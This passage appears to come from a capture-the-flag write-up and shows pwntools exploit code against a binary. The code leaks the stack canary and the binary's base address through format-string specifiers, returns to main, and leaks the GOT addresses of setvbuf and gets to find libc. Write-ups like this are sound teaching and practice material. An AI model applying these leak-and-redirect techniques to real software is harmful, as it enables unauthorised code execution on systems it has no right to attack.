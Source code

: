 Then using that leak, we can calculate the base address that the text section
of our binary is loaded in at:

```python
p.recvline_contains('name?')
p.sendline('%15$p %21$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
base = int(leaks[1], 16) - 0xb6d
```

Now that we have the base location, we can now jump to anywhere *within* the
text section of our program. That's not quite enough to give us arbitrary
code exection yet, due to a lack of gadgets.

But, we can jump back to the very start of `main`! This means that we can now
keep leaking more information for us to use and eventually build up a
complete picture of where we need to jump to.

```python
payload = ...
payload += base + 0xb6d  # rip
p.sendline(payload)
```

Now we're back at the top of `main`. Now we need to try to jump to something
within libc. To do that, we'll need to know where libc is loaded, as well as
which version of libc our host system is using.

Let's leak the address of `setvbuf`:

```python
p.recvline_contains('name?')
p.sendline('%7$s    ' + p64(base + 0x202068))
line = p.recvline()
setvbuf = line.split()[2]
setvbuf = u64(setvbuf + '\00' * (8 - len(setvbuf)))
log.info('setvbuf: ' + hex(setvbuf))
```

`base + 0x202068` is the address of the `setvbuf` entry in the GOT, so
reading a string from there gets us a pointer to the location of `setvbuf` in
libc.

We can then jump back to `main` again using the same code as above:

```python
payload = ...
p.sendline(payload)
```

Then we can leak another function, this time `gets`:

```python
p.recvline_contains('name?')
p.sendline('%7$s    ' + p64(base + 0x202060))
line = p.recvline()
gets = line.split()[2]
gets = u64(gets + '\00' * (8 - len(gets)))
log.info('gets: ' + hex(gets))
```
